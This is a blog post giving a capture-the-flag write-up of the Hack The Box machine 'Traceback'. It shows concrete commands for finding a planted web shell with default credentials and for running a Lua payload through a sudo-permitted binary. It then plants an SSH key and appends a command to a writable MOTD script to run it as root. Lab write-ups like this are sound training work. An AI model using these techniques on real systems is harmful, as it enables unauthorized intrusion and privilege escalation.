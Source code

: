 +++
title = "[HTB] Traceback"
date = 2020-08-25
template = "post.html"

aliases = [
  "/2020/08/25/htb-traceback/",
  "/htb-traceback",
]

[taxonomies]
categories = ["Security"]
tags = ["CTF", "Web"]
+++
Traceback is an easy Linux-based machine released on the 14th of March 2020 and
reachable on the IP address `10.10.10.181` (despite what's written on the info
card).

![HTB Traceback information card](/posts/htb-traceback/htb-traceback-info-card.jpg)

<!-- more -->

## User flag

Nmap indicates us that the Traceback machine is running OpenSSH and Apache:

```
$ nmap -A 10.10.10.181 | tee nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 19:03 IST
Nmap scan report for 10.10.10.181
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
```

Let's have a look at the website available on port 80:

![Landing page of the website accessible on port
80](htb-traceback-landing-page.png)

The `index.html` page doesn't contain much but this HTML comment:

```html
<center>
  <h1>This site has been owned</h1>
  <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
  <h3> - Xh4H - </h3>
  <!--Some of the best web shells that you might need ;)-->
</center>
```

It is definitely a hint. A quick search on DuckDuckGo with the keywords "Xh4H
web shell" returns [https://github.com/Xh4H/Web-Shells][web-shells] as first
result. It is a Git repository full of web shells. One of them is certainly the
one that the original attacker has left on the server!

To create a wordlist with the web shells comprised in the Git repository, I
called the [GitHub API][github-api-trees] with this one-liner command-line:

```
$ curl -s https://api.github.com/repos/Xh4H/Web-Shells/git/trees/4c9bade954938d56597325b872739c1a2463cf91 | jq -r .tree[].path | grep -vi readme | tee web-shells.txt
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Then, I fuzzed the web server with this wordlist using ZAP:

![Output from ZAP's fuzzer with the list of web shells previously
generated](htb-traceback-web-shells.png)

And voila! The backdoor is accessible at
[http://10.10.10.181/smevk.php][smevk-backdoor]:

![SmEvk web shell's login page](htb-traceback-smevk-login-page.png)

The credentials `admin:admin` are hard-coded in the web shell:
[https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15][smevk-credentials].

Then, I used the terminal available in the "Console" tab to poke around a
little:

```
$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

A Lua tool?

```
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

It indeed seems that the `webadmin` user can execute `/home/sysadmin/luvit` on
behalf of `sysadmin` without password.

[Luvit][luvit] is a program which "implements the same APIs as Node.js, but in
Lua!". We can therefore use it to execute Lua payloads. We fill prepare one for
reading the user flag:

```
$ printf 'file = io.open("/home/sysadmin/user.txt", "r")\nio.input(file)\nprint(io.read())\nio.close(file)\n' > /tmp/read_flag.lua
```

And then:

```
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/read_flag.lua
```

Which gives us the user flag: `e564de9f40e354deb591fa121937ca0d`.

## Root flag

Before going further, I wanted to get a "real" shell so I added an SSH public
key of mine to the `sysadmin` user's authorised keys and then connected back to
the server as `sysadmin` via SSH.

During the rest of my investigation, something caught my attention:

```
$ find / -type f -writable 2>/dev/null | grep -v '^/proc' | grep -v '^/sys'
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/.bashrc
/home/sysadmin/luvit
/home/sysadmin/.bash_logout
/home/sysadmin/.ssh/authorized_keys
/home/sysadmin/.cache/motd.legal-displayed
/home/sysadmin/.bash_history
/home/sysadmin/.profile
/home/webadmin/note.txt
```

The `sysadmin` user can edit the MOTD scripts!

```
$ ls -al /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 23 16:22 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 23 16:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 23 16:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 23 16:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 23 16:22 91-release-upgrade
```

This is really bad (for the server's owner at least) because these scripts are
executed upon any new SSH connection as defined in `/etc/pam.d/sshd`:

```
...
# Print the message of the day upon successful login.
# This includes a dynamically generated part from /run/motd.dynamic
# and a static (admin-editable) part from /etc/motd.
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
....
```

All I need is to modify one of those scripts to print the root flag:

```
$ echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
```

And when one logs in via SSH:

```
$ ssh -o PasswordAuthentication=no -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

fa6d76ff6866c37f381b5f6e40f8ce89


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Aug 23 16:23:41 2020 from 10.10.14.16
$
```

The root flag was `fa6d76ff6866c37f381b5f6e40f8ce89`.

 [github-api-trees]: https://developer.github.com/v3/git/trees/#get-a-tree
 [luvit]: https://luvit.io/
 [smevk-backdoor]: http://10.10.10.181/smevk.php
 [smevk-credentials]: https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15
 [web-shells]: https://github.com/Xh4H/Web-Shells
